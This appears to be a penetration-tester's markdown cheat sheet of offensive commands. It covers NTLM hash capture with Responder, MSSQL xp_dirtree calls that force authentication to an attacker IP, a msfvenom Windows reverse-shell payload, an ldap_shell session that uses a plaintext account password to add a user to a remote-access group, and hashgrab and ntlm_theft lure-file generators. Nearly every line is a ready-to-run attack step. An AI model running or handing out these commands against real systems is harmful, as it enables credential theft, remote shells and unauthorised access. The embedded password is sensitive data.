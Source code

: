 ```bash

# NTLM
responder -I tun0 
cd /usr/share/responder/logs

xp_dirtree '\\10.10.14.23\any\thing'

SELECT name FROM master.dbo.sysdatabases;
USE master
exec master.dbo.xp_dirtree '\\10.10.14.23\relay'
EXEC master..xp_subdirs '\\10.10.14.23\anything\'
EXEC master..xp_fileexist '\\10.10.14.23\anything\'

# Enum
## SELECT name FROM master.dbo.sysdatabases;
enum_db
USE [DBname];
SELECT * FROM [DBname].INFORMATION_SCHEMA.TABLES;
```

## ExploitDB
```bash
searchsploit -m 42031
```
## shellcode
https://shell-storm.org/shellcode/index.html
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f python 
```
## Webdav
```bash
cadaver http://
```

## ldap_shell
https://github.com/PShlyundin/ldap_shell
```bash
ldap_shell nara-security.com/TRACY.WHITE:zqwj041FGX

TRACY.WHITE# add_user_to_group TRACY.WHITE 'REMOTE ACCESS'
```

## hash_catch
scf, Library-ms, url, lnk <br/>

hashgrab
```bash
wget https://raw.githubusercontent.com/xct/hashgrab/main/hashgrab.py
python3 hashgrab.py MY_IP test
```
ntlm_theft
```bash
git clone https://github.com/Greenwolf/ntlm_theft
cd ntlm_theft
python3 ntlm_theft.py --generate all --server 10.10.14.8 --filename ntlms
```
